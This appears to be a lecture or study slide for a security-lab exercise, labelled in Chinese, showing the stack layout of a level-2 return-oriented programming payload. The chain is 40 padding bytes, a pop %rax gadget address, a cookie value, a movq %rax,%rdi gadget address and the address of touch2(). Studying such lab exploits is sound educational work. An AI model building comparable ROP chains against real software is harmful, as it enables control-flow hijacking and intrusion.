

Return-oriented
level 2
地址高的位置
touch2()的地址
0x4017ec
movq %rax, %rdi的地址
0x4019c5
cookie值
0x59b997fa
pop %rax的地址
0x4019ab
40个任意的字节
地址低的位置